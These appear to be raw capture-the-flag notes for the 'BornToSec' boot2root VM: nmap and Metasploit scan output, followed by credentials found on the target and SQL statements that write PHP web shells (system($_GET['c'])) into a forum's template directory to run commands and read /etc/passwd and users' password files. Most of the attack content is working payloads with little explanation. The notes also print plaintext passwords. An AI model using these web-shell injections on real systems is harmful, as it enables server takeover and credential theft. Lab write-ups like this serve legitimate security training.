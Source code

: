 
## ssh

Nmap scan report for 192.168.1.47
Host is up (0.00017s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
MAC Address: 08:00:27:37:54:C2 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.16
Network Distance: 1 hop

PORT    STATE SERVICE    VERSION
21/tcp  open  ftp        vsftpd 2.0.8 or later
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp  open  ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 07:bf:02:20:f0:8a:c8:48:1e:fc:41:ae:a4:46:fa:25 (DSA)
|   2048 26:dd:80:a3:df:c4:4b:53:1e:53:42:46:ef:6e:30:b2 (RSA)
|_  256 cf:c3:8c:31:d7:47:7c:84:e2:d2:16:31:b2:8e:63:a7 (ECDSA)
80/tcp  open  http       Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hack me if you can
143/tcp open  imap       Dovecot imapd
|_imap-capabilities: ENABLE IMAP4rev1 have listed OK capabilities SASL-IR LOGINDISABLEDA0001 STARTTLS more LOGIN-REFERRALS ID LITERAL+ IDLE Pre-login post-login
|_ssl-date: 2020-10-04T10:11:28+00:00; -23s from scanner time.
443/tcp open  ssl/http   Apache httpd 2.2.22
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: 404 Not Found
| ssl-cert: Subject: commonName=BornToSec
| Not valid before: 2015-10-08T00:19:46
|_Not valid after:  2025-10-05T00:19:46
|_ssl-date: 2020-10-04T10:11:28+00:00; -23s from scanner time.
993/tcp open  ssl/imaps?
|_ssl-date: 2020-10-04T10:11:28+00:00; -23s from scanner time.
MAC Address: 08:00:27:37:54:C2 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.16
Network Distance: 1 hop
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -23s, deviation: 0s, median: -23s

## ssh_version

[+] 192.168.1.47:22       - SSH server version: SSH-2.0-OpenSSH_5.9p1 Debian-5ubuntu1.7 ( service.version=5.9p1 openssh.comment=Debian-5ubuntu1.7 service.vendor=OpenBSD service.family=OpenSSH service.product=OpenSSH service.cpe23=cpe:/a:openbsd:openssh:5.9p1 os.vendor=Ubuntu os.family=Linux os.product=Linux os.version=12.04 os.cpe23=cpe:/o:canonical:ubuntu_linux:12.04 service.protocol=ssh fingerprint_db=ssh.banner )

## ftp_version

[+] 192.168.1.47:21       - FTP Banner: '220 Welcome on this server\x0d\x0a'


lmezard
laurie@borntosec.net
!q\]Ej?*5K5cy*AJ

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$


https://medium.com/@shahjerry33/sql-injection-remote-code-execution-double-p1-6038ca88a2ec

https://github.com/ilosuna/mylittleforum

```
SELECT "<?php system($_GET['c']); ?>" into outfile "/var/www/forum/templates_c/dd.php"

SELECT "<?php system(\"cat /etc/passwd\"); ?>" into outfile "/var/www/forum/templates_c/dd111.php"

SELECT "<?php system(\"ls /home/LOOKATME\"); ?>" into outfile "/var/www/forum/templates_c/dd111111.php"

SELECT "<?php system(\"cat /home/LOOKATME/password \"); ?>" into outfile "/var/www/forum/templates_c/dd1111111.php"
```

https://www.howtogeek.com/412626/how-to-use-the-ftp-command-on-linux/


SELECT "<?php system(\"ls /home/lmezard \"); ?>" into outfile "/var/www/forum/templates_c/dd11111111.php"
